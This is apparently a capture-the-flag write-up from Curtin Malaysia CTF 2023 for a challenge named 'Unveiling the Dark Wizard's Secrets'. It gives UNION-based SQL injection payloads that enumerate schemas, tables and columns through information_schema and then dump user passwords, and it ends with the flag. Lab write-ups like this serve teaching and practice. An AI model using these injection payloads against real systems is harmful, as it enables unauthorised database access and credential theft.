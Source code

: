 # Unveiling the Dark Wizard's Secrets

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/65e7c18a-383d-471c-95da-33c16adb101b)

## Solution

So for this challenge after I got know the database I search for the user voldemort 

The first payload is I want to search what inside the database
`123' UNION SELECT null, null, table_schema, null, null FROM information_schema.tables;-- -`

Then I go to sqlitraining using this payload
`123' UNION SELECT null, null, table_name, null, null FROM information_schema.tables WHERE table_schema = 'sqlitraining';-- -`

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/44e575af-6e5b-46b0-a00f-7371a2acf479)

Then I go to user using this `payload 123' UNION SELECT null, null, column_name, null, null FROM information_schema.columns WHERE table_name = 'users';-- -`

Then I go to 

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/00530a42-98d5-4a51-8205-b40d5cf7cf1c)

Password seem nice soo I go to the table using this payload `123' UNION SELECT null, null, password, null, null FROM users;-- -`

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/7200f227-2191-4fce-b567-deb18812a8b4)

Boom soo go back to the hint its says username and password of voldemort 

## Flag

CURTIN_CTF{872fc8ed4cae593dc5e62f00157b7db6}
